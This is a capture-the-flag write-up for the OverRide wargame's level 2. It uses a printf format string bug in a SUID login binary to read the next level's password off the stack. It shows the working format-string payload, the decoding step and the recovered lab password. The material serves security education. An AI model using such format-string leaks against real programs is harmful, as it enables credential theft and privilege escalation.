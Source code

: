 # Level 2

## Vulnerability

printf() format string attack, read password on stack

## Context

We find a binary with owner ```level03``` and SUID.
```
level02@OverRide:~$ ls -l
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
```

When run it prompts user to log in with username and password. It exits if given incorrect password.
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: me!
--[ Password: mine!
*****************************************
me! does not have access!
```

## Solution

### main() overview

Investigating with gdb we find no other functions apart from ```main()```. See [disassembly notes](https://github.com/dfinnis/Override/blob/main/level02/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` reads the correct password for user ```level03```, from the ```/home/users/level03/.pass``` file, into a variable on the stack.

Then ```main()``` prompts user for username and password, reading from stdin.

Finally ```strncmp()``` compares the password input by user with the correct password. If the password is correct ```system("/bin/sh")``` opens a shell.

### Exploit

The key vulnerability is the username provided is then printed with ```printf()```. So we can use the format string attack to print what is on the stack, where the password is stored.

With the format string attack, looking through arguments in the stack we find what looks like a password at arguments 22-26.
```
level02@OverRide:~$ (python -c 'print("%26$p%25$p%24$p%23$p%22$p")'; python -c 'print("pass")'; cat) | ~/level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```

Converted to ASCII, and reversed to revert endian, we find our password.
```
level02@OverRide:~$ echo 0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 | xxd -r -p | rev
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's log in to confirm this is the correct password.
```
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
...
level03@OverRide:~$
```
